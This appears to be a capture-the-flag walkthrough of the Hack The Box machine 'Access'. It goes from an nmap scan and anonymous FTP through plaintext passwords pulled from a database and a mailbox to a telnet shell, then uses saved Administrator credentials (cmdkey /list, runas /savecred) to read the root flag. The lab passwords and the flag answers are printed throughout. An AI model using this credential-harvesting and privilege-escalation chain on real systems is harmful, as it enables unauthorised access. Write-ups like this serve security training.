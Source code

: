 ## Access 

### Lab Details 

- Difficulty: Easy
- Type: Telnet, FTP, Priv Esc, Windows

#### Tasks
Q1:How many TCP ports are listening on Access?
- output from nmap `nmap -sT -T4 -vv -A -p- -oA Access 10.10.10.98`
```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet  syn-ack Microsoft Windows XP telnetd (no more connections allowed)
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
```
Q2: What is the filename for the Microsoft Access database available on the host?
 - port 22 (ftp) is open, and based on the output from nmap anonymous login is allowed
 - login to target with anonymous and performed below
```
ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> binary
200 Type set to I.
ftp> mget backup.mdb
```

Q3: What table in the database has user passwords?
- to interact with mdb file, tools like Mdbtools can be installed. 
```
# list tables in mdb
mdb-tables backup.mdb

# list tables 1 table name per line
mdb-tables backup.mdb -1

# output data in a table in json format
mdb-json backup.md auth_user
```
- table auth_user looks interesting below is the data
```
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"access4u@security","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
```

Q4: What is the password for Access Control.zip?
- Access Control.zip is located in Engineers directory in target ftp server 
- initially i wanted to crack the password by using `zip2john` and `john`
- however that method did not work then tried using the password found in the mdb file to access it
- password = `access4u@security`

Q5: What is the password for the security user?
- after extracting the zipped file we get Access Control.pst file which is used to stored Microsoft Outlook data
- install `pst-utls` tool to interact with `.pst` file
- we can use `readpst` to get the output 
```
# create a directory for the output to be stored
$: mkdir mail
# -o: output directory 
# -S: input pst file
$: readpst -o mail -S 'Access Control.pst'
$: tree mail
mail
└── Access Control
    └── 2
# password is in the file named '2'
```

Q6: To which open TCP port on Access can we connect to get a shell after logging in as security?
 - theres a open telnet port (23) we can try to connect to it 
 - `telnet target_ip 23`
 - once connected will prompt for username and password 
 - login with password found in the pst file

Q7: Submit the flag located on the security user's desktop.
 -  after gaining shell access execute below to get the flag
 -  `type \Desktop\user.txt

Q8: What is the name of the executable called by the link file on the Public desktop?
 - there is a `.lnk` file located at `C:\Users\Public\Desktop`
 - we can output the link file to acertain the file been executed using`type`
 - `type ZKAccess3.5 Security System.lnk`
```
PS C:\Users\Public\desktop> type "ZKAccess3.5 Security System.lnk"
L?F?@ ??7???7???#?P/P?O? ?:i?+00?/C:\R1M?:Windows???:?▒M?:*wWindowsV1MV?System32???:?▒MV?*?System32▒X2P?:?
                                                                                                           runas.exe???:1??:1?*Yrunas.exe▒L-K??E?C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%?
                                                                                                                                       ?wN?▒?]N?D.??Q???`?Xaccess?_???8{E?3
               O?j)?H???
                        )??[?_???8{E?3
                                      O?j)?H???
                                               )??[?    ??1SPS??XF?L8C???&?m?e*S-1-5-21-953262931-566350628-63446256-500
```
 - the program thats executed is runas

Q9: What Windows command, when given the /list option, will print information about the stored credentials available to the current user?
 - the Windows command will print stored creds given /list flag is `cmdkeys` - read more on this check out `Windows Privilege Escalation -> Further Credential Theft` module from HTB Academy, goes in depth on this topic
  
Q10: What option can be given to the runas Windows command to have it use the saved credentials and run as that user? Include the leading /.
- flag `/savecred` will use the saved cred instead of user input

Q11: Submit the flag located on the administrator's desktop.
- to get the root flag we will need to contruct the runas command to as below
- running as Administrator to output the root.txt's content to another file 
```
PS C:\Users\Public\desktop> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator

# runas as Administrator to get output from root.txt on C:\Users\Administrator\Desktop and save it to root.txt
C:\Windows\System32\runas.exe /savecred /user:ACCESS\Administrator "cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > root.txt"

# get the flag
cat C:\Windows\System32\root.txt
```


#### Lesson Learned
 - Ways to interact with .mdb files 
 - Ways to interact with .pst files 
